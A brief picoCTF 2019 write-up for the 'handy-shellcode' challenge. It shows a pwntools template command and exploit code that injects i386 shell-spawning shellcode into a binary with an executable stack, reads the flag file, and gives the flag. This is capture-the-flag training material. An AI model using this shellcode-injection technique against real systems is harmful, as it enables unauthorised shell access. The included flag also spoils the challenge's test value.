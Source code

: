 ## Using the pwntools template cli

```bash
pwn template --host 2019shell1.picoctf.com --user ${PICOUSER} --pass ${PICOPASS} --path /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/vuln
```

### Mods in the end of the exploit.py generated

```python
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

io = start()

io.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
io.sendlineafter(
    '$ ', 'cat /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/flag.txt')

io.close()
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}
